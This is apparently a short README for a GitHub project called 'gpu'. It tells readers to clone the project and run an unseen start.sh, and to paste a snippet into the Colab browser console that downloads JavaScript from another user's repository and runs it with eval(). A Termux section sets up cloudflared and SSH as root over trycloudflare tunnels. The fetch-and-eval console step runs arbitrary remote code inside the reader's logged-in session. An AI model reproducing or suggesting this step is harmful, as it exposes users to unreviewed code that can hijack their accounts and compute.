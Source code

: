 # gpu 
<br>
instalasi :
<hr>
git clone https://github.com/Kopen1/gpu && cd gpu && sh start.sh 
<br><br>
<h2> CONSOLE_COLAB <h2>
  <p> akses console : ctrl + shift + k 
    <br>
<hr>
async function mode() {
let url = 'https://raw.githubusercontent.com/liebedevil/borr/main/netep.js'
let response = await fetch(url);
let script = await response.text();
eval(script);}
mode();
<hr>


<h2> FOR TERMUX </h2>
=================<br>
pkg upgrade <br>
apt install openssh <br>
=================== <br>
cd ~
yes "" | pkg update
yes "" | pkg install golang git debianutils make
git clone https://github.com/cloudflare/cloudflared.git --depth=1
cd cloudflared
sed -i 's/linux/android/g' Makefile
make cloudflared
install cloudflared /data/data/com.termux/files/usr/bin
==
nano ~/.ssh/config
==
Host *.trycloudflare.com
	HostName %h
	User root
	Port 22
	ProxyCommand /data/data/com.termux/files/home/cloudflared/cloudflared access ssh --hostname %h




